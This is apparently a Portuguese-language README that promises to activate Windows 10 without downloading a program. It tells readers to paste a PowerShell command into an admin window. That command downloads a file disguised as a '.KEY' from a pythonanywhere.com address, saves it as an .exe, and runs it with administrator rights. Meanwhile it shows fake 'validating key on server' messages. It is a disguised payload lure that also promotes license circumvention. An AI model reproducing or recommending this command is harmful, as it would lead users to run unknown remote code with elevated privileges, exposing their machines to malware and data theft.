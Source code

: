 


⚡ Como Ativar Windows 10 da Correta, Sem Baixar Programa. Ative o Windows 10 Apenas Usando Comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::: Copie o comando completo ...

> `$path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process -Verb runAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
`

